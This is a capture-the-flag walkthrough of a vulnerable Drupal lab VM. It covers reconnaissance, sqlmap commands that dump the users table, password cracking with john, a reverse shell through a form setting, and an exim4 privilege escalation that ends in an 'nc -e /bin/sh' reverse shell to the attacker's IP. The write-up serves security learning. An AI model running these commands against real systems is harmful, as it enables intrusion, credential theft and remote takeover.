### **Netdiscover**



We use the tools called netdiscover scan hosts, we found the 192.168.0.104 is our target virtualbox host ip.

------

### **Namp**



We found some services <u>SSH</u>, <u>HTTP</u>

------

### Solution





This was a drupal web,  nothing found. We use dirsearch to scan the directory. most of them are no permission.



At the same, We found http://192.168.0.104/node/2, http://192.168.0.104/?nid=2 has the same return page.

Maybe exists a file include inject.

So i use a /ect/passwd directory to bypass, But it's error showing that we should use sql blind attack.

So we use sqlmap to blind the Get Http requests.



brute databases==>`sqlmap --dbs -u http://192.168.0.104/?nid=1 --batch`



brute tables==>`sqlmap -D d7db --tables -u http://192.168.0.104/?nid=1 --batch`



brute columns ==> `sqlmap -D d7db -T user --columns  http://192.168.0.104/?nid=1 --batch`



dumps columns ==>`sqlmap -D d7db -T users -C name,pass -u http://192.168.0.104/?nid=1 --batch --dump`



So we use **john** to brute force the password,  we Got the password of john, the password is **turtle**

So let's login in  http://192.168.0.104/user/login withe the john user.



Successfully!!!, Now let's find wether exists template inject somewhere. 





We found that the form settings can overwrite our shellcode, when contact , we could reverse shell.





Now we have the privilege of the user **www-data**, we should escalate privilege to root.

So we use find anything which owns suid permission.



We found **/usr/sbin/exim4**,  this the key for us to be root.

At first, i didn't know how to use the is command, after a while, i decided to search wether has a exploit of this commnd.

We use `uname -a` , found the system is based on debian, So we use dpkg -l to show his version.





We downloaded this exploit script and wget from my apache server.



Now we `nc -e /bin/sh 192.168.0.105 1337` to reverse shell of root. Then we can catch the flag.

Successfully!!!

------

**That' all , Thanks for your watching**